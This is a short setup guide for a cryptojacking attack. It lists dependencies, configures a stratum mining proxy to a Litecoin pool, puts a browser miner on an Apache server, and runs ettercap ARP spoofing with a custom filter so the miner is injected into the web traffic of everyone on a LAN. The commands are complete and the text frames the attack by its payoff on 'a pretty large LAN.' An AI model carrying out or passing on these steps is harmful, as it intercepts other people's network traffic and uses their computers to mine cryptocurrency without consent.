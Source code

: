 Install some dependancies:
apt-get install python2.7 devscripts debhelper pbuilder python-twisted python-dev python-setuptools python-autobahn libapache2-mod-php5 php5-curl ettercap apache2

setup stratum-mining-proxy:

cd stratum && ./setup.py develop
cd ..
cd stratum-mining-proxy && distribute_setup.py; chmod u+x setup.py; ./setup.py develop; mkdir log;
./mining_proxy.py -o ltc.ghash.io -p 3333 -sh 127.0.0.1 -oh 127.0.0.1  -cu up100454499.Web -cp yourpass -st -l log.txt

move lm to your apache directory:

cp lm /var/www/html -R
/etc/init.d/apache2 restart

MITM the network:

etterfilter hashnet.etterfilter -o nh.ef
ettercap -T -M arp:remote -q -F nh.ef /192.168.0.1/ //
CHANGE hashnet.etterfilter file's ip in the perl script section to point to the webserver where you host the miner.

Test it by going to 127.0.0.1/lm

NOTE: You need a pretty large LAN for this to be worth it.  This mines with 4 cpu threads by default.
THANKS: Thanks to slush0, esenminer, and the ettercap team
